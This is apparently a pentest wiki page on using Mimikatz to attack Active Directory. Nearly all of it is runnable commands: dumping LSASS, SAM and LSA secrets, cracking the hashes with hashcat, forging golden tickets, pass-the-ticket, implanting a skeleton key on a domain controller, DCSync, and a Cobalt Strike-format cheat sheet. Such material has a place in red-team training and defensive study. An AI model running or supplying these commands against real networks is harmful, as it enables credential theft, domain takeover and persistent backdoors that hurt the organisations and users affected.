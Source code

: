 # MimiKatz

_Used for dumping user credentials inside of a active directory network_

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

**Summary**

* [Dumping Hashes](broken-reference)
* [Golden tickets attack](broken-reference)
* [Silver Ticket](broken-reference)
* [Pass the ticket](broken-reference)
* [Kerberos backdoors](broken-reference)

## Dumping hashes

`cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary&#x20;

`privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly&#x20;

`lsadump::lsa /patch` Dump those hashes!

Crack those hashes w/ hashcat

`hashcat -m 1000 <hash> rockyou.txt`

## Golden Tickets Attack

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`cd downloads && mimikatz.exe`

`privilege::debug` ensure this outputs \[privilege "20" ok]

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

### Create golden ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`&#x20;

### Access other machines with golden ticket

`misc::cmd` - This will open a new command prompt with elevated privileges to all machines&#x20;

Access other Machines! - You will now have another command prompt with access to all other machines on the network &#x20;

## Silver Ticket

If a password of a service account is stolen, it can be used to impersonate a user

## Pass the Ticket

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

`cd Downloads` - navigate to the directory mimikatz is in

`mimikatz.exe` - run mimikatz

`privilege::debug` - Ensure this outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz&#x20;

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

&#x20;Take the admin one

Now that we have the ticket, we can perform a pass the ticket attack `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.&#x20;

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.&#x20;

## Kerberos Backdoors

### Skeleton Key

The skeleton key works by abusing the AS-REQ encrypted timestamps, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

`cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

`privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing Skeleton Key**

`misc::skeleton`

**Accessing the forest** Example : `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

## Commands - CheatSheet

```bash
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

